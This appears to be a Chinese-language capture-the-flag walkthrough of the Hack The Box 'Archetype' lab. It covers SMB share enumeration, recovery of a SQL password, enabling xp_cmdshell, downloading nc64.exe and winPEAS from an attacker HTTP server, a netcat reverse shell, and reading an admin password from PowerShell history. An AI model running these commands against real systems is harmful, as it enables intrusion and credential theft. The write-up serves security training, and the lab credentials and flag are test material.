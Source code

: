 <center>Archetype</center>







[toc]







## Archetype

> Archetype







### 1. task

1. Which TCP port is hosting a database server?

```shell
1433/tcp
```

2. What is the name of the non-Administrative share available over SMB?

```shell
backups
```

3. What is the password identified in the file on the SMB share?

```shell
M3g4c0rp123
```

4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

```shell
mssqlclient.py
```

5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

```shell
xp_cmdshell
```

6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?

```shell
winpeas
```

7. What file contains the administrator's password?

```shell
ConsoleHost_History.txt
```









### 3. flag

> 获取flag

```shell
export ip=10.129.18.192

nmap -sV -sC $ip

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ssl-date: 2024-12-03T02:10:49+00:00; +1s from scanner time.
| ms-sql-info: 
|   10.129.18.192:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.18.192:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-12-03T02:03:39
|_Not valid after:  2054-12-03T02:03:39
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

> 枚举smb共享

```shell
smbclient -N -L \\\\$ip\\

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    backups         Disk      
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
```

> **查看backups，并发现 prod.dtsConfig 文件，在 prod.dtsConfig 中发现了`Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`**

![image-20241203102054843](./assets/image-20241203102054843.png)



> **使用impacket工具包的mssqlclient.py脚本连接到mssql服务器**

> **Microsoft SQL Server 2017正在端口1433上运行，并且在配置文件中发现了用户名和密码，尝试进行连接，使用impacket工具包。
>
>   \**工具包地址：[`https://github.com/fortra/impacket`](https://github.com/fortra/impacket)\****

```shell
impacket-mssqlclient ARCHETYPE/sql_svc@$ip -windows-auth
```

![image-20241203102738384](./assets/image-20241203102738384.png)

> 查看`xp_cmdshell`是否可用

```shell
# 查看当前用户角色
SELECT is_srvrolemember('sysadmin');

# 查看 xp_cmdshell是否可用
EXEC xp_cmdshell 'net user';

# 发现xp_cmdshell未激活
```

> 尝试激活xp_cmdshell

```shell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

> 激活了 xp_cmdshell，使用xp_cmdshell 执行命令，whoami执行成功，如果可以执行命令的话我们就可以执行反向shell
>
> `whoami查询成功`，尝试进行反向shell

```shell
xp_cmdshell "whoami"
```

> 反弹shell
>
> 下载`nc64.exe`
>
> [nc](https://eternallybored.org/misc/netcat/)

```shell
# 本地开启web服务，上传nc
python3 -m http.server 8000

# 将 nc64.exe 上传至 C:\Users\sql_svc\Downloads 目录，从http web服务器输出可以看出，nc64.exe 上传成功。
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.32:8000/nc64.exe -outfile nc64.exe"
```

![image-20241203110755888](./assets/image-20241203110755888.png)

> **开启监听通过nc将cmd.exe绑定到监听器，执行命令，获取到shell**

```shell
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads;.\nc64.exe -e cmd.exe 10.10.16.32 4444"

nc -lnvp 4444
```

![image-20241203111108466](./assets/image-20241203111108466.png)



> 提权：
>
> PEASS: PEASS - 权限提升超棒脚本套件。**适用于 Windows、Linux/Unix\* 和 MacOS 的权限提升工具**。
>
> [github](https://github.com/peass-ng/PEASS-ng)
>
> windows: 工具： [github](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
>
> 下载： [win64](https://github.com/peass-ng/PEASS-ng/releases/download/20241201-e3889b61/winPEASx64.exe)

```shell
# 开启http服务
python3 -m http.server 8000

# 下载提权工具到靶机
wget http://10.10.16.32:8000/winPEASx64.exe -outfile winPEASx64.exe
```

> **执行 .\winPEASx64.exe 运行工具，发现存储PowerShell历史记录的文件夹及其他敏感信息**

```shell
 .\winPEASx64.exe
```

![image-20241203131329827](./assets/image-20241203131329827.png)

> **在存储PowerShell历史记录的文件夹，发现了`user:administrator MEGACORP_4dm1n!!`**

```shell
cd AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\

type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

> 获取root flag

```shell
impacket-psexec administrator@10.129.18.192

cd C:\Users\administrator\Desktop

dir

type root.txt
b91ccec3305e98240082d4474b848528
```

![image-20241203132003923](./assets/image-20241203132003923.png)